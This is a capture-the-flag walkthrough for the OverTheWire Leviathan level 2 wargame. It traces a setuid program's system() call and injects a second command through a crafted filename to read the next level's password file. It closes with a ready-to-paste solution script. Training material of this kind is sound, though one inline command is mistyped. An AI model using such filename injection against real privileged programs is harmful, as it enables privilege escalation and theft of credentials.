 # OTW - Leviathan #2 -> #3

Coming off of #1 -> #2 the method appears to be similar. Use the executable in the home folder to escalate access to the next numbered user and then print the password in `/etc/leviathan_pass`

To figure out how to escalate access is the trick. In the previous answer we used `hexdump` and found the password contained in the execeutable's .text section.

This time, .text is not useful. But we can use `ltrace` to see what function calls the program is making. First we create a temp folder to work in:


`mkdir /tmp/afw0839fh9aw8h3f0 && cd /tmp/afw0839fh9aw8h3f0`

Then we create a file to print:

`echo "test" > test`

Now we can run `ltrace`:

`ltrace ~/printfile /tmp/afw0839fh9aw8h3f0/test`

Output:

```
__libc_start_main(0x804852b, 2, 0xffffd704, 0x8048610 <unfinished ...>
access("test", 4)                                                                                             = 0
snprintf("/bin/cat test", 511, "/bin/cat %s", "test")                                                         = 13
geteuid()                                                                                                     = 12002
geteuid()                                                                                                     = 12002
setreuid(12002, 12002)                                                                                        = 0
system("/bin/cat test"test
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                        = 0
+++ exited (status 0) +++
```

The interesting line is this: `system("/bin/cat test"test`

The script is making a system call that ammounts to `cat $filename`

We can exploit this by inserting a command into the filename so that it is run by the system call. First lets make our command to print the password:

`export c=cat /etc/leviathan_pass/leviathan3`

Now we will create a file with the command inside the name that will fit into the system call syntax:

`cp test 'test && $c'`

Now you can simply run this command to get the password:

`~/printfile 'test && $c'`

If we run an ltrace again we can see what is happening:

```
system("/bin/cat test && $c"test
```

Here is the complete answer (if you paste this into leviathan2 upon login you will receive the password:

```
randomString=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 13 ; echo '')
export p=/tmp/$randomString
mkdir $p && cd $p
touch c && echo "cat /etc/leviathan_pass/leviathan3" > c
chmod 777 c
export b=$p/c
cp c 'c && $b'
~/printfile 'c && $b'
```

(leviathan3)
